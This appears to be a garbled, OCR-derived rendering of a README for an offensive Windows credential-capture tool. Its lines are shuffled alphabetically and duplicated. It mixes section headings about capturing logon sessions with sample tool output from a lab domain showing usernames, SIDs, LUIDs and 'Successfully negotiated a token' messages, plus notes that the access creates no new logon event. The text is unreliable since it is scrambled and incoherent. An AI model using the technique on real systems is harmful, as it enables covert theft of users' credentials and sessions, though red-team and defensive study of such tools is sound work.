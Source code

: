 
  
   
    
                     v1.0.0
               0 File(s)              0 bytes
               9 Dir(s)  40,504,201,216 bytes free
        - [Advantages](#advantages)
        - [Disadvantages](#disadvantages)
      - [Advantages/Disadvantages Versus Traditional Credential Extraction](#advantages-disadvantages-versus-traditional-credential-extraction)
      - [Our Approach](#our-approach)
      - [Possible Approaches](#possible-approaches)
      AuthPackage           : Kerberos
      AuthPackage           : Negotiate
      AuthPackage : Kerberos
      AuthPackage : Negotiate
      Credential UserName   : da@THESHIRE.LOCAL
      Credential UserName   : harmj0y@THESHIRE.LOCAL
      Credential UserName   : testuser@THESHIRE.LOCAL
      LUID                  : 1677733
      LUID                  : 207990196
      LUID                  : 81492692
      LUID        : 1677733
      LUID        : 207990196
      LUID        : 81492608
      LUID        : 81492692
      LogonType             : Interactive
      LogonType   : Interactive
      Origin LUID           : 1677733 (0x1999a5)
      Origin LUID           : 1677765 (0x1999c5)
      Origin LUID           : 999 (0x3e7)
      Origin LUID : 1677733 (0x1999a5)
      Origin LUID : 1677765 (0x1999c5)
      Origin LUID : 999 (0x3e7)
      S-1-5-21-937929760-3187473010-80948926-512
      User SID              : S-1-5-21-937929760-3187473010-80948926-1104
      User SID              : S-1-5-21-937929760-3187473010-80948926-1119
      User SID              : S-1-5-21-937929760-3187473010-80948926-1145
      User SID    : S-1-5-21-937929760-3187473010-80948926-1104
      User SID    : S-1-5-21-937929760-3187473010-80948926-1119
      User SID    : S-1-5-21-937929760-3187473010-80948926-1145
      UserName              : THESHIRE\DA
      UserName              : THESHIRE\harmj0y
      UserName              : THESHIRE\testuser
      UserName    : THESHIRE\DA
      UserName    : THESHIRE\harmj0y
      UserName    : THESHIRE\testuser
      [*] Successfully negotiated a token for LUID 1677733 (hToken: 980)
      [*] Successfully negotiated a token for LUID 207990196 (hToken: 848)
      [*] Successfully negotiated a token for LUID 81492692 (hToken: 976)
     * However, and existing ticket/credential extraction can still be done on the leaked logon session.
    - [Approach](#approach)
    - [Compilation](#compilation)
    - [Example - Capture](#example---capture)
    - [Example - Listing Logon Sessions](#example---listing-logon-sessions)
    - [Example - Monitoring for Logon Sessions (with group SID filtering)](#example---monitoring-for-logon-sessions-with-group-sid-filtering)
    - [Group SID Filtering](#group-sid-filtering)
    - [Usage](#usage)
    - [Usage](#usage-1)
    - [Why This Is Possible](#why-this-is-possible)
   * Access is only usable as long as the system doesn't reboot.
   * Doesn't create a new logon event or logon session.